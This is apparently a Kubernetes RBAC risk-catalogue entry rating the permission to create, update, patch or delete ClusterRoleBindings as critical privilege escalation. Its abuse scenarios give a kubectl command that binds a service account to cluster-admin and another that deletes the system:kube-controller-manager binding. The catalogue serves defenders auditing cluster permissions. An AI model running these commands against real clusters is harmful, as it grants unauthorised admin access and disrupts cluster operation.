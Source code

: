 ```yaml
---
id: 1028
title: "Manage ClusterRoleBindings (create, update, patch, delete)"
description: "Permits creating, modifying, or deleting ClusterRoleBindings. This allows an attacker to bind any user, group, or service account to any ClusterRole (including highly privileged ones like cluster-admin), effectively granting arbitrary cluster-wide permissions and leading to privilege escalation."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                                   |
| ----------------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1028                                                                                                                                    |
| Name                    | Manage ClusterRoleBindings (create, update, patch, delete)                                                                              |
| Risk Category           | Elevation of Privilege                                                                                                                  |
| Risk Level              | {{< risk Critical >}}                                                                                                                   |
| Role Type               | ClusterRole                                                                                                                             |
| API Groups              | rbac.authorization.k8s.io                                                                                                               |
| Resources               | clusterrolebindings                                                                                                                     |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                                                |
| Tags                    | {{< tag "BindingToPrivilegedRole" >}} {{< tag "ClusterAdminAccess" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "RBACManipulation" >}} |

## Description

Permits creating, modifying, or deleting ClusterRoleBindings. This allows an attacker to bind any user, group, or service account to any ClusterRole (including highly privileged ones like cluster-admin), effectively granting arbitrary cluster-wide permissions and leading to privilege escalation.

## Abuse Scenarios

1. Create a ClusterRoleBinding to grant cluster-admin to a service account.

```bash
kubectl create -f - <<EOF
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: pwned-cluster-admin-binding
subjects:
- kind: ServiceAccount
  name: <serviceaccount-name>
  namespace: <namespace>
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
EOF
# Example: kubectl create -f - <<EOF ... EOF (bind 'default' SA in 'default' namespace to cluster-admin)

```

2. Delete a ClusterRoleBinding, revoking cluster-wide permissions.

```bash
kubectl delete clusterrolebinding <clusterrolebinding-name>
# Example: kubectl delete clusterrolebinding system:kube-controller-manager

```
